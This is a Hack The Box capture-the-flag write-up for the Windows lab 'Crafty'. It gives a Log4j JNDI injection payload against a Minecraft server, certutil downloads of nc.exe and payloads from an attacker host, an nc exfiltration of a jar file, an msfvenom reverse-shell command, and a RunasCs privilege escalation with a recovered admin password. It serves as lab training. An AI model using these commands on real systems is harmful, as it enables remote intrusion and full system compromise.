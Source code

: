 ```yaml
---
title: HTB-Crafty
draft: false
tags:
  - htb
  - windows
  - easy
  - minecraft
  - log4j
  - tlauncher
  - runascs
  - jd-gui
  - jar
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/Crafty.png)

## Information Gathering
### Rustscan

Rustscan finds port 80 and 25565 open:

`rustscan --addresses 10.10.11.249 --range 1-65535`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-2.png)

Let's enumerate further using nmap.

Nmap shows that Minecraft 1.16.5 is running on port 25565. 

`sudo nmap -sVC -p 80,25565 crafty.htb`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-3.png)

## Enumeration
### HTTP - TCP 80

After adding **crafty.htb** to `/etc/hosts`, we can access the website:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image.png)

There is **Play.crafty.htb** at the bottom of the page. Let's add it to `/etc/hosts` as well. 
### TCP 25565

We tried accessing Minecraft through web browser but nothing happened:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-1.png)

We will need some sort of platform to interact with minecraft server. 

## Shell as svc_minecraft
### Log4j

Searching for exploits regarding **Minecraft 1.16.5**, it is pretty apparent that it is vulnerable to **Log4j**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-4.png)

Let's follow [this article](https://software-sinner.medium.com/exploiting-minecraft-servers-log4j-ddac7de10847) and reproduce the exploitation steps.

We will first download [TLauncher](https://tlauncher.org/), we could be used to make interaction with Minecraft server:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-11.png)

After download the zip file, let's spin up the software using java:

`sudo java -jar TLauncher.jar`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-5.png)

Let's correctly set up our version to **1.16.5** and make install:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-6.png)

Entering the game, we are prompted with the default minecraft page:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-7.png)

Let's click on **Multiplayer** and we are given with the page to choose network connections:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-8.png)

We will click on **Direct Connection** and use the server address **play.crafty.htb**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-9.png)

We now have access to the game:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-10.png)

Let's use [this payload](https://github.com/kozmer/log4j-shell-poc) to spawn a reverse shell. 

Upon download, we have modify the script a bit so that it will execute **cmd.exe** instead of **bash**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-12.png)

Le't run the exploit with netcat listener setup and listening at port 4444:

`sudo python3 poc.py --userip 10.10.14.36 --webport 80 --lport 4444`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-13.png)

On game screen, type `t` and copy paste the following payload provided from the exploit above:

`${jndi:ldap://10.10.14.36:1389/a}`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-15.png)

Almost immediately, we are given with the shell as **svc_minecraft**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-14.png)

## Privesc: svc_minecraft to administrator

### jar file

Enumerating around the file system, we see **playercounter-1.0-SNAPSHOT.jar** file:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-16.png)

It looks interesting. Let's download it and enumerate it. 

We will first pass over **nc.exe** to the target system using Python webserver and Certutil:

`python3 -m http.server 1234`

`certutil.exe -urlcache -split -f http://10.10.14.36:1234/nc.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-17.png)

Let's use **nc.exe** to transfer the file over to local netcat listener:

`.\nc.exe 10.10.14.36 1235 < c:\Users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-18.png)

There is netcat receiver running locally:

`sudo nc -lp 1235 > playercounter-1.0-SNAPSHOT.jar`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-19.png)


### JD-GUI

Now that we have downloaded the file, let's take a look into it using **jd-gui**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-20.png)

Inside **Playercounter.class**, password is revealed: **s67u84zKq8IXw**

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-21.png)

This could be the password for the administrator. Let's find out. 

### RunasCs

We will upload **RunasCs.exe** using certutil:

`certutil.exe -urlcache -split -f http://10.10.14.36:1234/RunasCs.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-22.png)

Let's create a reverse shell payload in exe that we will use it with RunasCs:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.36 LPORT=1337 -f exe > rev.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-23.png)

We will upload generated **rev.exe** as well:

`certutil.exe -urlcache -split -f http://10.10.14.36:1234/rev.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-24.png)

Using RunasCs, we can run **rev.exe** as the administrator:

`.\RunasCs.exe administrator s67u84zKq8IXw ".\rev.exe"  `

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-25.png)

We have a shell as the administrator now:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/crafty/image-26.png)


## References
- https://nvd.nist.gov/vuln/detail/CVE-2021-44228
- https://software-sinner.medium.com/exploiting-minecraft-servers-log4j-ddac7de10847
- https://tlauncher.org/
- https://github.com/kozmer/log4j-shell-poc


